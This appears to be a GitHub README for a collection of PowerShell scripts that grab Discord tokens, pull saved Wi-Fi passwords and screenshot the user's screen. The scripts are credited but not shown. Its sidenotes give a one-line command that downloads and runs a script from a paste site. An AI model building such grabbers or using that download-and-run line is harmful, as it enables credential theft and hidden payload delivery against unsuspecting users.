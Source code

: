 # powershell-scripts
An array of PowerShell scripts I wrote for educational purposes. Don't misuse these.

Some of these scripts are parts of code from other developers so I will credit them where I can

Includes
 - Uploading to Imgur in powershell
 - Grabbing Discord Tokens with Powershell
 - Getting stored wifi passwords with powershell
 - Screenshotting the users screen in powershell

## Credit

Discord Webhooks in Powershell | [gngrninja](https://github.com/gngrninja/blog/blob/master/DiscordWebhook/embeds.ps1)

Discord Token Grabbing in Powershell | [F1sk](https://github.com/FiskDk/PowerShell-Discord-Token-Grabber)

Getting Images from Clipboard in Powershell | [thom schumacher](https://stackoverflow.com/questions/55215482/save-image-from-clipboard-using-powershell)

Uploading Images to Imgur in Powershell | [Deleted Reddit User](https://www.reddit.com/r/PowerShell/comments/2i0t6f/comment/ckzwori/?utm_source=share&utm_medium=web2x&context=3)


## Helpful Powershell Sidenotes

```rundll32 url.dll,FileProtocolHandler 'url here'```

This opens a url in the default browser

```iex ((New-Object System.Net.WebClient).DownloadString('url here'))```

downloads a powershell script from a raw text hosting site [pastebin](https://pastebin.com/) (use unlisted mode if your uploading a script with sensitive information included), [ghostbin](https://ghostbin.com/)
